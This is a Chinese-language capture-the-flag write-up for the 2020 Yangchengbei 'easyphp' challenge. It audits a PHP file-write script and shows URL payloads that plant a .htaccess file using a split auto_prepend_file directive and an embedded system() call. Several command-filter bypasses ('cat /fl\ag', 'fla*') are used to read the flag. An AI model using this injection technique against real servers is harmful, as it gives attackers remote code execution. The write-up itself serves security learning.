

# 羊城杯2020-easyphp

源码：

```
<?php
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    if(!isset($_GET['content']) || !isset($_GET['filename'])) {
        highlight_file(__FILE__);
        die();
    }
    $content = $_GET['content'];
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nHello, world");
?>
```

代码审计

```
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
```

将当前目录中除了index.php的所有文件删除

---

```
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
```

对传参content进行黑名单过滤。

---

```
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
```

对传参filename，进行正则，只允许使用.和字母

---

```
 $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nHello, world");
```

再一次删除当前目录下除了index.php的文件，然后使用file_put_contents函数以我们传入的filename和content作为参数写入文件。并且在content后连接\nhello,world字符串。

---

首先先试试传入muma.php，内容为一句话木马，传完之后url访问，发现不能正常解析php，会被当做文本输出，而不是代码执行。

然后我就想着先传一个.htaccess或者.user.ini上去，再传我们的muma.php使其能够当做php执行，但是这里只能传一个文件，因为再传第二个文件的时候前一个文件会被删除。

这里就涉及到一个新的知识点了。

## .htaccess新知识

.htaccess有这样一个运用，.htaccess可以把自己指定当做php文件处理

[.htaccess详解](https://blog.csdn.net/solitudi/article/details/116666720)



这题file被过滤了，但是在.htaccess的语法中可以使用\来连接下一行的代码，然后由于源码会在我们写入的内容后添加一句\nHello, world，由于`\n`所以在写入文件之后会把后面的英文写入到下一行，根据了解这不符合当前`.htaccess`解析格式，不能够正常解析，所以我们可以在php代码后加上\对\n的\进行转义，使其失去换行效果。

**所以最后.htaccess中的内容为。**

```
php_value auto_prepend_fi\
le .htaccess
#<?php system('ls');?>\nHello,world
```

所有的细节已经分析完毕，只需要将文件名和文件内容传参即可自动解析其中的`php`代码，将结果输出出来了，`#`后面跟着任意代码执行，由于传参是一行的，所以换行的地方需要使用`%0a`进行代替,`#`用`%23`代替，传参测试`paylaod`，运行两次成功执行代码

payload：

```
?content=php_value auto_prepend_fi\%0ale .htaccess%0a%23<?php system("ls");?>\&filename=.htaccess
```

回显结果

```
php_value auto_prepend_fi\ le .htaccess #index.php \ Hello, world
```

payload成功执行

现在只要修改命令即可拿到flag

```
?content=php_value auto_prepend_fi\%0ale .htaccess%0a%23<?php system("ls /");?>\&filename=.htaccess
```

结果

```
php_value auto_prepend_fi\ le .htaccess #bin boot dev etc flag home lib lib64 media mnt opt proc root run sbin srv start.sh sys tmp usr var \ Hello, world
```

直接cat /flag不行，因为flag被过滤了，简单的rce绕过即可

```
cat /fl\ag
cat /fl'a'g
cat /fla*


?content=php_value auto_prepend_fi\%0ale .htaccess%0a%23<?php system("cat /fl\ag");?>\&filename=.htaccess
```

拿到flag

```
php_value auto_prepend_fi\ le .htaccess #flag{3bbbccd7-e8d2-427a-bd05-7e16a34a2e0b} \ Hello, world
```

